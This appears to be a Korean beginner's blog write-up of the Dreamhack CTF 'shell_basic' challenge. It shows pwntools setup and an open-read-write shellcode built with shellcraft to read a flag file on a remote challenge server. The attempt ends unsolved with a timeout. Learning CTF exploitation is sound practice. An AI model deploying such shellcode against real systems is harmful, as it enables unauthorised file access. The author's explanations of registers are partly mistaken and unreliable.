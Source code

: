 ```yaml
---
layout: post
title: "shell_basic"
---
```


# 문제
![image](https://user-images.githubusercontent.com/86642180/159207987-6a67d083-012a-41a3-98c0-4c52e4dcf76c.png)

# 문제 파일
```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<Error>
<Code>AccessDenied</Code>
<RequestId>tx000000000000068fa8ac8-0062380560-22abac8d-sfo2a</RequestId>
<HostId>22abac8d-sfo2a-sfo</HostId>
</Error>
```
# 풀이 전 정리
해킹 관련 문제는 처음풀어본다 이건 알고리즘이랑 전혀 관련 없어보인다..  

<br>

📌 리눅스 커널  
리눅스 OS의 가장 핵심 영역. CPU에 명령을 내림  

<br>

📌 셸코드(shell code) : 시스템의 특정 명령을 실행하는 작은 사이즈의 프로그램  
주로 소프트웨어 취약점을 통한 공격(Exploitation)이후 실행 될 작은 규모의 포로그램(Payload)으로 사용  
어쨋든 리눅스 커널은 사용자랑 상호작용이 불가능하니까  
문제도 xshell로 접근하면 된다

<br>
execve, execveat : fork()로 생성한 함수를 콜해주는 함수  

<br>
구글링 해보니 execve로 시스템 콜을 리눅스에서 하지 못하면  
ORW(Open Read Write) 방식으로 진행하면 된다고 한다  
예전에 파이썬 처음 배울 때 텍스트 파일로 실습하던 느낌으로 진행하면 되나보다  

<br>
더 자료 찾아보고 알아보니 드림핵 문제는 리눅스를 기반으로 진행되므로  
윈도우가 아니라 리눅스에 진행해야 매끄럽게 잘 진행이 되는 것같다  


<br>

# 풀이
터미널에서 
```
su - root
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
```
그런데 계속 `Command 'pip' not found, but can be installed with:`  
에러가 나고 터미널에서  
`apt install python3-pip`를 대신하라 했다  
다른 코드를 실행하니 pwntools 설치 완료  

![image](https://user-images.githubusercontent.com/86642180/159222780-3eee6e74-4749-4971-b950-b8d57e01d6d2.png)

<br>
파이썬 사용할 것이니 python 입력  
![image](https://user-images.githubusercontent.com/86642180/159222981-c4a3622d-d8e8-48d6-bb97-2423786c4f87.png)
python3부터는 python이 아니라 python3를 입력해야 되나보다  

<br>
pwntools를 사용하기 위해 import
`from pwn import *`  

<br>
pwntools에서 remote는 remote("ip", port number)를 통해 연결해준다  
앞에 문제에서 나온 접속 정보를 remote 함수에 입력  
`p = remote("host3.dreamhack.games", 24346)`  
그런데 포트에 연결이 안된다고 한다 포트 번호가 바뀐건가 확인  

<br>

```
Host: host1.dreamhack.games
Port: 17599/tcp
```
접속정보가 저렇게 변경되었다  
`p = remote("host1.dreamhack.games", 17599)`  
![image](https://user-images.githubusercontent.com/86642180/159223868-fcea25a8-35db-46d6-897f-e84739e488bf.png)

<br>

`context.arch = 'amd64'`

pwntools는 셸코드를 생성하거나 코드를 어셈블, 디스어셈블 하는 기능이 있다  
그래서 직접적으로 셸코드를 작성하지 않아도 알아서 변환해준다!  
amd64는 x86-64 즉 64비트 환경에서 사용하는 것이므로 `amd64`를 context 아키텍쳐로 설정  

<br>

`r = "/home/shell_basic/flag_name_is_loooooong"`  
문제에서 제시한 flag가 있는 루트 설정  

<br>

이제부터는 셸코드를 작성해야 한다  
아직도 개념이 100% 잡힌건 아니지만 셸코드도  
파이썬으로 텍스트 파일 오픈 리드 라이트 하는거랑 똑같이 진행할 수 있다  

```
shellcode = ''
shellcode += shellcraft.open(r)
shellcode += shellcraft.read('rax', 'rsp', 0x100)
shellcode += shellcraft.write(1, 'rsp', 0x100)
```
먼저 셸코드를 담을 변수 `shellcode` 초기화  
`shellcraft`라는 함수를 사용하여 시스템콜인 execve나 orw 셸코드를 작성할 수 있다  
문제에서는 r에 있는 프로그램을 특정하는 것을 목표로 하니까  
r을 열어준 뒤 그에 해당하는 셸코드를 작성한다  

<br>
그리고 `read('rax', 'rsp', 0x100)`  
rax : Extended Accumulator Register  
사칙연산 명령어에서 자동으로 사용, 리턴 레지스터  
시스템콜의 실질적인 번호를 가리키는 레지스터  

<br>
![image](https://user-images.githubusercontent.com/86642180/159227906-05f0ea7e-eb00-4ae4-80cc-4700bc20d2df.png)
`rsp` : Extended Stack Pointer  
현재 스택 주소. 즉 스택 맨 윗쪽 주소. 스택에 있는 데이터의 주소를 지정. 계산, 데이터 전송에는 거의 사용되지 않는다  
프로그램이 구동되며 어떤 코드와 메모리를 로드할지 계속 할당해줘야하는데  
그 할당을 하는 것 중 하나 rsp인것 같다..  

<br>
그러니까 rsp가 해당하는 값을 rax에 넣어주는 방식으로 셸코드가 생성되어 시스템이 구동되는 것이다..  
0x100은 16진수로 256인데  
read는 256에 해당하는 rsp를 rax에 넣어주는 것을 의미하는 것같다  

<br>
`write(1, 'rsp', 0x100)`  

<br>

```
print(p.recv())
p.sendline(asm(shellcode))
print(p.recv())
```
그러고 출력을 하려는데  
에러가 뜬다  
일단 처음 `print(p.recv())`에서 `b'shellcode: TIME OUT\n'` 에러가 난다  

<br>

찾아보는데 진짜 모르겠다ㅋㅋ

<br>

# 참고자료 
어셈블리어와 시스템 동작 과정  
http://kocw-n.xcache.kinxcdn.com/data/document/2020/pusancatholic/kimdohyun0727/2.pdf  

<br>
셸코드 설명 + 어셈블리어  
https://masterccc.github.io/memo/shellcode/  

<br>
어셈블리어 설명  
https://yechoi.tistory.com/10  

<br>
pwntool과 어셈블리어  
https://docs.pwntools.com/en/stable/shellcraft/amd64.html  

<br>
사실 참고자료 읽어도 잘 모르겠다..
